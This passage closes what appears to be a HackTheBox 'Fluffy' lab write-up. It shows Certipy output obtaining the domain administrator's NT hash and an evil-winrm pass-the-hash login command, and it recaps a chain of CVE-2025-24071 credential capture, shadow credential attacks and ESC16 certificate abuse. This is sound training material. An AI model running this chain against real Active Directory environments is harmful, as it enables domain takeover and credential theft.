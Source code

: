 ```bash
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator'
[*] Using principal: 'administrator@fluffy.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@fluffy.htb': <HASH_REDACTED>
```

Now we can login as the `administrator` user and obtain the `root` flag
```bash
sync-ad evil-winrm -u 'administrator' -H '<HASH_REDACTED>' -i 10.10.11.69
```

![htb-fluffy-root-txt](images/HTB-fluffy/htb-fluffy-root-txt.png)

## Recap
Using the credentials given at the start, we can download a `pdf` file in the `IT` `SMB` share which lists CVEs affecting the server. Using [CVE-2025-24071](https://github.com/0x6rss/CVE-2025-24071_PoC){:target="_blank"}{:rel="noopener noreferrer"} we can obtain credentials for the `p.agila` user. 

Using a [shadow credential attack](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab){:target="_blank"}{:rel="noopener noreferrer"} we can login as the `winrm` user and obtain the user flag. 

Repeating a [shadow credential attack](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab){:target="_blank"}{:rel="noopener noreferrer"} for the `Certificate Authority` user, we can abuse the [ESC16 Privesc](https://github.com/ly4k/Certipy/wiki/06-%E2%80%90-Privilege-Escalation#esc16-security-extension-disabled-on-ca-globally){:target="_blank"}{:rel="noopener noreferrer"} with [certipy](https://github.com/ly4k/Certipy){:target="_blank"}{:rel="noopener noreferrer"} to obtain the `administrator` user's hash and grab the `root` flag.

